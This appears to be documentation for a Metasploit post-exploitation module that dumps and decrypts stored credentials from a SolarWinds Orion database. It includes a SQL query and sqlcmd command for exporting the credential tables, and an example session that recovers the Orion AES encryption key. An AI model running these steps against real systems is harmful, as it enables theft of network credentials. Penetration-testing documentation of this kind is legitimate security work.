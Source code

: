 ### SQL Data Acquisition

The sqlcmd binaries (part of the SQL Server Management Studio) must be installed on the system
to access the database. Orion does not install SSMS or sqlcmd by default if it is not also
installing a local SQL server instance - in such cases, it will be necessary to extract the
encrypted database manually and provide the module with a path to the extracted data. To do so
execute the SQL query below against the Orion database and save the resulting row set as a CSV file.

The CSV header must match:

`CredentialID,Name,Description,CredentialType,CredentialOwner,CredentialPropertyName,Value,Encrypted`

Columns are cast `VARBINARY` to deal with poor CSV export support in `sqlcmd`. Export the results of
the query below to CSV file:

```
SELECT 
  c.ID AS CredentialID,
  CONVERT(VARBINARY(1024),c.Name) Name,
  CONVERT(VARBINARY(1024),c.Description) Description,
  CONVERT(VARBINARY(256),c.CredentialType) CredentialType,
  CONVERT(VARBINARY(256),c.CredentialOwner) CredentialOwner,
  CONVERT(VARBINARY(1024),cp.Name) CredentialPropertyName,
  CONVERT(VARBINARY(8000),cp.Value) Value,
  cp.Encrypted 
FROM
  [dbo].[Credential] AS c
JOIN 
  [dbo].[CredentialProperty] AS cp ON (c.ID=cp.CredentialID)
```

Output must be encoded VARBINARY per above, and must be well-formed CSV (i.e. no trailing whitespace).
If using `sqlcmd`, ensure the `-W` and `-I` parameters are included to strip trailing whitespace and
allow quoted identifyers. Suggested syntax for `sqlcmd` using Windows authentication is below, where
the contents of `solarwinds_sql_query.sql` is the text of the SQL query above:

`sqlcmd -d "<DBNAME>" -S <MSSQL_INSTANCE> -E -i solarwinds_sql_query.sql -o solarwinds_dump.csv -h-1 -s"," -w 65535 -W -I`

This should place a CSV export file suitable for use within the module at `solarwinds_dump.csv`. If
using SQL native auth, replace the `-E` parameter with

`-U "<MSSQL_USER>" -P "<MSSQL_PASS>"`

### Examples

Windows Server 2019 host running Orion NPM 2020 using the `dump` action:

```
msf exploit(multi/handler) > use post/windows/gather/credentials/solarwinds_orion_dump
msf post(windows/gather/credentials/solarwinds_orion_dump) > set session 1
session => 1
msf post(windows/gather/credentials/solarwinds_orion_dump) > dump

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[*] Decrypt SolarWinds CryptoHelper Keystorage ...
[+] Compressed size: 2104
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
```